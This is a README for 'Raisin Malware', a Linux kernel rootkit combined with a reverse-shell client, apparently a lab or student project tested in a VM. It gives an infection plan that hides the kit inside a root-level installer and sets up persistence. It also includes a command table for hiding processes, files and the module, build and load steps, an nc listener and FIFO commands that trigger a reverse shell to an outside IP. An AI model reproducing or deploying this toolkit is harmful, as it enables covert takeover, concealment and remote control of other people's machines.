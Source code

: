 # Raisin Malware

<img src="images/angry_raisin.png" width="200">

The raisin malware is a combination rootkit and reverse shell application. The raisin malware uses the LKM created by [Maxim Biro](https://www.google.com) to gain root access, grape is a continuously running client that will launch a reverse shell and can then be used to send commands to the LKM.

The rootkit only works on **Linux kernels up to 4.4.0-31** and has architecture-specific code in the rootkit which is implemented only for **x86** and **x86-64** architectures. The raisin malware was tested on a Ubuntu 14.04 VM.

## Infection Method

The intention is to inject raisin into another download that requires root
privileges to install. The installer will be altered to create the kernel module
and grape client, then add the module to the /etc/modules file, and create a startup file for grape so both automatically run program on Linux startup.

## Commands

| Commands         | Description   |
| ---------------- |:-------------:|
| root             | Grants you root shell access. Will happen automatically.|
| hpid $PID        | Hides the specified PID.|
| unpid $PID       | Unhides the specified PID.|
| hfile $FILENAME  | Hides the specified FILENAME globally. Must be a filename without any path|
| unfile $FILENAME | Unhides the specified FILENAME.|
| hide             | Hides the rootkit LKM.|
| unhide           | Unhides the rootkit LKM.|
| protect          | Protects the rootkit from rmmod.|
| unprotect        | Disables the rmmod protection.|
| reverse $IP      | Sends start command to begin reverse shell at IP address, port is 443|
| touch            | Creates a pipe in /opt. A good test to see if root access is working|

## Instructions

1. Run `make` to create rootkit and grape client. Will need to install build
essentials if not already installed `apt-get install build-essential`
2. Load the rootkit using `sudo insmod rootkit.ko`, the rootkit will hide itself so it can't be seen with `lsmod` till the `unhide` command is given.
3. Open a listener for the reverse shell using `sudo nc -lvp 443`. On the default
build target IP is set for default VM IP of `10.0.2.15`.
4. Start the grape client `./grape`
5. The reverse shell is now active and can be used to send commands to the host
machine.
6. In the `/tmp` directory a pipe is created named `grape_fifo`. Sending `echo -n`
commands to this pipe will allow access to rootkit and other functions.

## Examples Commands

* `echo -n "unhide\0" > grape_fifo`
* `echo -n "hfile ../test.txt\0" > grape_fifo`
* `echo -n "reverse 192.168.1.1\0" > grape_fifo`

## Notes

* For **hfile** and **unfile** the path to the file must be from the perspective of the application where it was started.
* In order to avoid errors with c strings add the '\0' to the end of the line.
    `ex. echo -n "unhide\0" > grape_fifo`
* grape will automatically close if no internet access is available.
* Default build reverse shell IP address is set to `10.0.2.15` the default VM
IP for testing in a VM, port `443`.
